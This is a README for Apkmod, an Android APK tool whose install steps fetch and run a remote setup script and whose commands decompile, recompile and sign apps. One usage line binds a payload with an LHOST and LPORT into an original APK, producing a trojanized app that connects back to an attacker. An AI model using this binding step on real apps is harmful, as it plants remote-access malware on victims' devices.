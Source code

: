 # Apkmod v1.0
### Author : Lokesh @Hax4us

## _Steps For Installation_
1. First goto home directory `cd $HOME`
2. Get the setup script `wget https://raw.githubusercontent.com/Hax4us/Apkmod/master/setup.sh`
3. Execute the script `sh setup.sh`
4. Now you can execute command `apkmod`

## Usage :
1. For decompiling `apkmod -d /path/to/inapp.apk /path/to/outdirectory`. It will decompile __inapp.apk__ into __outdirectory__ folder.
2. For recompiling `apkmod -r /path/to/indirectory /path/to/outapp.apk`. It will recompile __indirectory__ ( where decompiled files are exists ) into __outapp.apk__.
3. For signing `apkmod -s /path/to/unsignedapp.apk /path/to/signedapp.apk`. It will sign __unsignedapp.apk__ and saves output ( signed app ) to __signedapp.apk__.
4. For binding `tbunch -b LHOST LPORT /path/to/originalApp.apk /path/to/binded.apk`. It will bind payload with __originalApp.apk__ and saves final binded app to __binded.apk`
